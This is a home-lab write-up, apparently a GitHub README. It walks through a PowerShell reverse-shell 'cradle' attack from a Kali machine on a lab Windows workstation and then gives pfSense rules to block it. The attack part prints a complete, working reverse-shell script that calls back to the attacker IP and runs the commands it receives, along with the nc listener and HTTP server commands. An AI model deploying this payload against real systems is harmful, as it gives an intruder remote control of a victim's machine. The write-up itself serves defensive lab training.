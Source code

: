 
# Reverse Shell Backdoor with Powershell Cradle Attack

## Overview

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali «
  - **IP Address:** 192.168.20.30

## Objective
Create and deploy a malicious PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the Windows's machine.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this [git](https://github.com/das-lab/mpsd) and [post](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the Kali
    $writer.Write("> ")  
    $writer.Flush()    
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the Kali
    $writer.WriteLine($output)
    $writer.Flush()
}

$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, I hosted an HTTP web server just to simulate the Windows user to download malware through a link. Meanwhile I used Netcat to listen for an incoming connection from the reverse shell:

```bash
python3 -m http.server 80
```
```bash
nc -lvnp 4444
```

### 4. **Victim Downloads and Executes the Malicious Payload**

After the Windows user has downloaded and executed the malicious payload,it bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to my kali’s machine.

### 5. **Execute Commands on the Target Machine**

After successfully establishing the reverse shell, I could run every command that i wanted to on that Windows machine or gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:
  
  ```bash
  whoami
  ```
![whoami](https://github.com/user-attachments/assets/7a988e9f-9477-4124-ba5f-e5a70b6656cb)



- **`tasklist`** – To list all running processes:
  
  ```bash
  tasklist | Out-String
  ```
![tasklist](https://github.com/user-attachments/assets/9751f108-cbbe-4467-b7e1-49f94d57b2cb)


- **`ipconfig`** – To display the network configuration, including IP addresses:
  
  ```bash
  hostname
  ```
  
![ipconfig](https://github.com/user-attachments/assets/78b34a03-65f9-4b65-b641-ba866db86f93)


- **`systeminfo`** – To gather detailed information about the operating system and hardware:
  
  ```bash
  systeminfo
  ```
  
![systeminfo](https://github.com/user-attachments/assets/3f524861-1014-4602-b281-2b24def33d74)


## PfSense Configuration

1- **Block Unauthorized Outbound Traffic (Reverse Shell Protection):**

![rule1](https://github.com/user-attachments/assets/ba106ecb-9147-4d63-8dda-af2b43ab352b)


**Explanation:**  
Reverse shells typically use common TCP ports (like 4444) to establish outbound connections to an attacker’s machine, this rule blocks these outbound connections, preventing compromised systems from connecting back to kali.


2- **Restrict PowerShell Downloads:**

![rule2](https://github.com/user-attachments/assets/48c6ac50-19e7-4254-ba25-7854df7ae71b)

**Explanation:**  
PowerShell cradle attacks often download scripts via HTTP/HTTPS. This rule blocks PowerShell from making external web requests, mitigating PowerShell-based malware delivery.


Note: In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the [configs directory](https://github.com/NunooFerreira/SOC-Lab-Home-Cybersecurity-Monitoring/blob/main/configs/CrowdSec_configs/custom_reverse_powershell.yaml).


